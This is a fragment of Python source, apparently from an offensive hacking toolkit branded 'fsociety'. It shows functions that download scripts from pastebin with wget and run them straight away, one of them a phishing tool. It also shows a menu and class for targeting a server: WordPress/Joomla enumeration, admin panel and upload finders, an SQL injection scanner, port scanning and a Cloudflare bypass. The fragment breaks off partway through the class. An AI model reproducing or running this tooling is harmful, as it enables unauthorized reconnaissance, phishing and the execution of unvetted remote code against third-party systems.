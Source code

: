 
def smtpsend():
    os.system("wget http://pastebin.com/raw/Nz1GzWDS --output-document=smtp.py")
    clearScr()
    os.system("python smtp.py")


def pisher():
    os.system("wget http://pastebin.com/raw/DDVqWp4Z --output-document=pisher.py")
    clearScr()
    os.system("python pisher.py")


menuu = fsocietylogo + '''

   {1}--Get all websites
   {2}--Get joomla websites
   {3}--Get wordpress websites
   {4}--Control Panel Finder
   {5}--Zip Files Finder
   {6}--Upload File Finder
   {7}--Get server users
   {8}--SQli Scanner
   {9}--Ports Scan (range of ports)
   {10}-ports Scan (common ports)
   {11}-Get server Info
   {12}-Bypass Cloudflare

   {99}-Back To Main Menu
'''


def unique(seq):
    '''
    get unique from list found it on stackoverflow
    '''
    seen = set()
    return [seen.add(x) or x for x in seq if x not in seen]


class Fscan:
    def __init__(self, serverip):
        self.serverip = serverip
        self.getSites(False)
        print menuu
        while True:
            choice = raw_input(fsocietyPrompt)
            if choice == '1':
                self.getSites(True)
            elif choice == '2':
                self.getJoomla()
            elif choice == '3':
                self.getWordpress()
            elif choice == '4':
                self.findPanels()
            elif choice == '5':
                self.findZip()
            elif choice == '6':
                self.findUp()
            elif choice == '7':
                self.getUsers()
            elif choice == '8':
                self.grabSqli()
            elif choice == '9':
                ran = raw_input(' Enter range of ports, (ex: 1-1000) -> ')
                self.portScanner(1, ran)
            elif choice == '10':
                self.portScanner(2, None)